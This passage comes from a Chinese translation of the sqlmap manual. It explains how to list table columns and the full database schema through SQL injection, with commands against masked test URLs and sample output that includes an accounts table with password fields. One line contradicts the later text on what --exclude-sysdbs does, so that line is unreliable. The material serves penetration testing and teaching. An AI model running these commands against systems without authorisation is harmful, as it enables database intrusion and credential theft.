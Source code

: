 如果你不提供-D 参数来列指定的一个数据的时候，sqlmap 会列出数据库所有库的所有表。

–exclude-sysdbs 参数是指包含了所有的系统数据库。

需要注意的是在 Oracle 中你需要提供的是 TABLESPACE_NAME 而不是数据库名称。

**列举数据库表中的字段**

参数：`–columns,-C,-T,-D`

当前用户有权限读取包含所有数据库表信息的表中的时候，即可列出指定数据库表中的字段，同时也会列出字段的数据类型。

如果没有使用-D 参数指定数据库时，默认会使用当前数据库。

```
$ python sqlmap.py -u "http://*******/sqlmap/sqlite/get_int.php?id=1" --columns -D testdb -T users -C name
[...]
Database: SQLite_masterdb
Table: users
[3 columns]
+---------+---------+
| Column  | Type|
+---------+---------+
| id  | INTEGER |
| name| TEXT|
| surname | TEXT|
+---------+---------+
```

**列举数据库系统的架构**

参数：`–schema,–exclude-sysdbs`

用户可以用此参数获取数据库的架构，包含所有的数据库，表和字段，以及各自的类型。

加上`–exclude-sysdbs`参数，将不会获取数据库自带的系统库内容。

MySQL 例子：

```
$ python sqlmap.py -u "http://*******/sqlmap/mysql/get_int.php?id=1" --schema --batch --exclude-sysdbs
[...]
Database: owasp10
Table: accounts
[4 columns]
+-------------+---------+
| Column  | Type|
+-------------+---------+
| cid | int(11) |
| mysignature | text|
| password| text|
| username| text|
+-------------+---------+

Database: owasp10
Table: blogs_table
[4 columns]
+--------------+----------+
| Column   | Type |
+--------------+----------+
| date | datetime |
| blogger_name | text |
| cid  | int(11)  |
| comment  | text |
+--------------+----------+

Database: owasp10
Table: hitlog
```